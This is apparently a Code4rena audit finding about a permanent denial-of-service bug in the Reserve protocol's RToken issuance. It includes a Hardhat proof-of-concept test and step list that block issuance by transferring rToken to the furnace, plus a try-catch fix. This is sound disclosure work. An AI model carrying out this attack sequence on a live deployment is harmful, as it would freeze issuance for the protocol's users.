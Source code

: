 ## Tags

- 2 (Med Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- edited-by-warden
- MR-M-05

# [Early attacker can DOS rToken issuance](https://github.com/code-423n4/2023-02-reserve-mitigation-contest-findings/issues/13) 

# Lines of code

https://github.com/reserve-protocol/protocol/blob/27a3472d553b4fa54f896596007765ec91941348/contracts/p1/RToken.sol#L308-L312
https://github.com/reserve-protocol/protocol/blob/27a3472d553b4fa54f896596007765ec91941348/contracts/p1/RToken.sol#L132


# Vulnerability details

## Impact
An early attacker can DOS the `issue` functionality in the `RToken` contract.  

No issuances can be made. And the DOS cannot be recovered from. It is permanent.  

## Proof of Concept
You can add the following test to the `Furnace.test.ts` file and execute it with `yarn hardhat test --grep 'M-05 Mitigation Error: DOS issue'`.  

```typescript
describe('M-05 Mitigation Error', () => {
    beforeEach(async () => {
      // Approvals for issuance
      await token0.connect(addr1).approve(rToken.address, initialBal)
      await token1.connect(addr1).approve(rToken.address, initialBal)
      await token2.connect(addr1).approve(rToken.address, initialBal)
      await token3.connect(addr1).approve(rToken.address, initialBal)

      await token0.connect(addr2).approve(rToken.address, initialBal)
      await token1.connect(addr2).approve(rToken.address, initialBal)
      await token2.connect(addr2).approve(rToken.address, initialBal)
      await token3.connect(addr2).approve(rToken.address, initialBal)

      // Issue tokens
      const issueAmount: BigNumber = bn('100e18')
      // await rToken.connect(addr1).issue(issueAmount)
      // await rToken.connect(addr2).issue(issueAmount)
    })

    it('M-05 Mitigation Error: DOS issue', async () => {
      /* attack vector actually so bad that attacker can block issuance a loooong time?
      */
      console.log("Total supply");
      console.log(await rToken.totalSupply());

      const issueAmount: BigNumber = bn('1e17')
      await rToken.connect(addr1).issue(issueAmount)

      console.log("Total supply");
      console.log(await rToken.totalSupply());

      const transferAmount: BigNumber = bn('1e16')
      rToken.connect(addr1).transfer(furnace.address, transferAmount);

      await advanceTime(3600);

      await furnace.connect(addr1).melt()
      
      await advanceTime(3600);

      console.log("rToken balance of furnace");
      console.log(await rToken.balanceOf(furnace.address));

      /* rToken can not be issued
      */

      await expect(rToken.connect(addr1).issue(issueAmount)).to.be.revertedWith('rToken supply too low to melt')

      console.log("rToken balance of furnace");
      console.log(await rToken.balanceOf(furnace.address));

      /* rToken can not be issued even after time passes
      */

      await advanceTime(3600);

      await expect(rToken.connect(addr1).issue(issueAmount)).to.be.revertedWith('rToken supply too low to melt')

      /* rToken.melt cannot be called directly either
      */

      await expect(rToken.connect(addr1).melt(transferAmount)).to.be.revertedWith('rToken supply too low to melt')
    })
  })
```

The attack performs the following steps:  

1. Issue `1e17` rToken
2. Transfer `1e16` rToken to the furnace
3. Wait 12 seconds and call `Furnace.melt` such that the furnace takes notice of the transferred rToken and can pay them out later
4. Wait at least 12 seconds such that the furnace would actually call `RToken.melt`
5. Now `RToken.issue` and `RToken.melt` are permanently DOSed

## Tools Used
VSCode

## Recommended Mitigation Steps
Use a try-catch block for `furnace.melt` in the `RToken.issueTo` function.  

```diff
diff --git a/contracts/p1/RToken.sol b/contracts/p1/RToken.sol
index 616b1532..fc584688 100644
--- a/contracts/p1/RToken.sol
+++ b/contracts/p1/RToken.sol
@@ -129,7 +129,7 @@ contract RTokenP1 is ComponentP1, ERC20PermitUpgradeable, IRToken {
         // Ensure SOUND basket
         require(basketHandler.status() == CollateralStatus.SOUND, "basket unsound");
 
-        furnace.melt();
+        try main.furnace().melt() {} catch {}
         uint256 supply = totalSupply();
 
         // Revert if issuance exceeds either supply throttle
```

The only instance when `furnace.melt` reverts is when the `totalSupply` is too low. But then it is ok to catch the exception and just continue with the issuance and potentially lose rToken appreciation.  

Potentially losing some rToken appreciation is definitely better than having this attack vector.  

The `RToken.redeemTo` function already has the call to the `furnance.melt` function wrapped in a try-catch block. So redemption cannot be DOSed.  
